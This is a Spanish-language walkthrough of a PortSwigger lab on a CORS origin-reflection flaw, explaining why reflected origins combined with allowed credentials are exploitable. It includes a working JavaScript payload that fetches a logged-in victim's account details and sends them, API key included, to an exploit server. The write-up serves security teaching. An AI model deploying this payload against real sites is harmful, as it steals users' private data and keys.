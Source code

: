 ```yaml
---
title: "CORS vulnerability with basic origin reflection"
description: "Laboratorio de Portswigger sobre CORS"
date: 2025-04-05 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - CORS
tags:
  - Portswigger Labs
  - CORS
  - CORS vulnerability with basic origin reflection
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `sitio web` tiene una configuración `insegura` de `Cross-Origin Resource Sharing (CORS)`, ya que confía en `todos los orígenes`. Para `resolver` el `laboratorio`, debemos crear un script de `JavaScript` que utilice `Cross-Origin Resource Sharing (CORS)` para obtener la `clave API` del `administrador` y subir el `script` a nuestro `servidor de explotación`. El `laboratorio` se considerará resuelto cuando enviemos con éxito la `clave API` del `administrador`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/CORS-Lab-1/image_1.png)

Hacemos `click` sobre  `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/CORS-Lab-1/image_2.png)

Vemos que podemos `cambiar` nuestro `email` y una clave `API`

![](/assets/img/CORS-Lab-1/image_3.png)

Cuando accedemos a `/my-account` después de `iniciar sesión` vemos que se manda una `petición` a `/accountDetails` y `recibimos` una `respuesta` con los `datos` de nuestro `usuario`. Lo destacable de esto es que el `servidor` nos `responde` con la cabecera `Access-Control-Allow-Credentials: true`

![](/assets/img/CORS-Lab-1/image_4.png)

Si `mandamos` esta `petición` al `Repeater` e `inyectamos` la cabecera `Origin: https://vulnerable.com` se ve `reflejada` en la `respuesta`

![](/assets/img/CORS-Lab-1/image_5.png)

Que el `servidor` responda con la cabecera `Access-Control-Allow-Credentials: true` no lo hace vulnerable. Lo que lo hace vulnerable es la `combinación` de esa cabecera con `Access-Control-Allow-Origin: *` o, como en este caso, que no `valide la cabecera` y nos deje proporcionar a nosotros una `Access-Control-Allow-Origin: https://vulnerable.com`. Cuando se cumplen estos `requisitos`, podemos aprovechar estas `políticas de CORS inseguras` para obtener `datos de otros usuarios`. Para ello, nos dirigimos al `Exploit server` y construimos este `payload`

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0a4c0053031c0975805453b000ba00f4.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'https://exploit-0a6200f003d609a280ef523c01720026.exploit-server.net/log?key=' + this.responseText;
    };
</script>
```

Pulsamos sobre `View exploit`, nos dirigimos a `Access log` y vemos cómo se ha hecho una `petición` a nuestro `exploit` y posteriormente se `envían` los `datos del usuario víctima` a `nuestro servidor`

![](/assets/img/CORS-Lab-1/image_6.png)

Una vez que hemos comprobado que funciona `pulsamos` sobre `Deliver exploit to victim`, nos dirigimos al `Access log` y vemos que `recibimos información del usuario víctima` en `formato URL encoded`

![](/assets/img/CORS-Lab-1/image_7.png)

Nos dirigimos al `Decoder`, `pegamos` la información obtenida y la `URL decodeamos`

![](/assets/img/CORS-Lab-1/image_8.png)

Nos `copiamos` al `apiKey`, pulsamos en `Submit solution` y la `pegamos`

![](/assets/img/CORS-Lab-1/image_9.png)
